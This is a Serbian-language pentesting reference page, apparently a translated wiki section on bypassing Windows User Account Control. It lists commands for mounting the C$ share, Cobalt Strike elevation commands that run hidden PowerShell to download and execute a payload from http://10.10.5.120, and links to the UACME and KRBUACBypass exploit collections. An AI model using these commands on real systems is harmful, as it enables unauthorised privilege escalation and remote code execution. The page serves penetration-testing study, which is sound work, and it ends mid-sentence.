 ### **Veoma** osnovno UAC "zaobilaženje" (potpisti pristup sistemu datoteka)

Ako imate shell sa korisnikom koji je unutar grupe Administratora, možete **montirati C$** deljeni putem SMB (sistem datoteka) lokalno na novi disk i imaćete **pristup svemu unutar sistema datoteka** (čak i folderu kuće Administratora).

{% hint style="warning" %}
**Izgleda da ovaj trik više ne funkcioniše**
{% endhint %}

```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```

### UAC zaobilaženje pomoću cobalt strike-a

Cobalt Strike tehnike će raditi samo ako UAC nije postavljen na maksimalni nivo bezbednosti

```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```

**Empire** i **Metasploit** takođe imaju nekoliko modula za **bypass** **UAC**.

### KRBUACBypass

Dokumentacija i alat na [https://github.com/wh0amitz/KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)

### UAC bypass eksploatacije

[**UACME**](https://github.com/hfiref0x/UACME) koji je **kompilacija** nekoliko UAC bypass eksploatacija. Imajte na umu da će vam biti potrebno **kompajlirati UACME pomoću visual studija ili msbuild-a**. Kompilacija će kreirati nekoliko izvršnih datoteka (kao što su `Source\Akagi\outout\x64\Debug\Akagi.exe`), moraćete znati **koja vam je potrebna**.\
Trebalo bi da **budete oprezni** jer će neki bypassi **pokrenuti neke druge programe** koji će **upozoriti** **korisnika** da se nešto dešava.

UACME ima **verziju izgradnje od koje je svaka tehnika počela da radi**. Možete pretražiti tehniku koja utiče na vaše verzije:
